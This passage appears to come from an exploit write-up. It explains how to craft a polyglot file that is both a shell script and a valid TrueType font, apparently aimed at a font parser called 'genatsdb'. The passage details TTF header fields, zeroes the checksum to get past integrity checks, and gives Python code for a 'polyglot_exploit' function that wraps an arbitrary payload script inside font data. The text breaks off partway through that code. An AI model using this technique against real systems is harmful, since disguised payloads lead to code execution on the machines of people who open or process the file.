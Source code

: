 similarly, `entrySelector = 0` was calculated via `floor(log2(numTables))` (`log2(1) = 0`), and `rangeShift = 0` (which represents the remaining bytes in the directory after `searchRange` is accounted for) was calculated via `numTables * 16 - searchRange` (`1 * 16 - 16 = 0`). 

the `head` table choice is required by TTF, and it contains the font metadata and validation magic number. it's the most critical table for font recognition.

`checksum = 0` bypasses integrity verification (forcing `genatsdb` to skip checksum validation). it's a pretty standard technique when crafting malformed file attacks.

`offset = 28` (calculated by adding 12 bytes of the header to 16 bytes of the table directory) points to where the head table data begins. `length = 54` is the standard head table size, per TTF spec, and it contains the font metrics and magic number.

```python
head_table = struct.pack('>I', 0x5F0F3CF5)  # magic number
head_table += b'\x00' * 50  # rest of head table (50 bytes to make 54 total)
```

the magic number: `0x5F0F3CF5`. every valid TTF head table must contain this [exact value](https://learn.microsoft.com/en-us/typography/opentype/spec/head). it doesn't have a "meaning" beyond acting as a validation check in the binary font file format. the font parser reads this 4-byte value as a signature to verify that the header is correctly read, so without it, the font is considered corrupted.

the location must be the first 4 bytes of the head table, so i fill the remaining 50 bytes with 0s to avoid triggering additional validation checks.

### phase 5: final construction

this script simply combines all the findings from p1-p4 to build a working polyglot exploit that functions as both an executable shell script and a valid TTF font file.

the total size of this is 182 bytes. 

```python
#!/usr/bin/env python3

import subprocess
import os
import struct

def polyglot_exploit(payload_script, target_offset=100):

    script_header = "#!/bin/sh\n"
    script_body = payload_script + "\nexit 0\n"

    total_script = script_header + script_body

    if len(total_script) > target_offset:
        raise ValueError(f"script too long ({len(total_script)} bytes), must be under {target_offset} bytes")

    while len(total_script) < target_offset:
        remaining = target_offset - len(total_script)
        if remaining >= 12:
            total_script += "# padding\n"
        else:
            total_script += "#" * (remaining - 1) + "\n"

    script_part = total_script[:target_offset]

    font_data = b''

    font_data += struct.pack('>IHHHH', 0x00010000, 1, 16, 0, 0)

    font_data += b'head'  # tag
    font_data += struct.pack('>I', 0)  # checksum (0 = skip validation)
```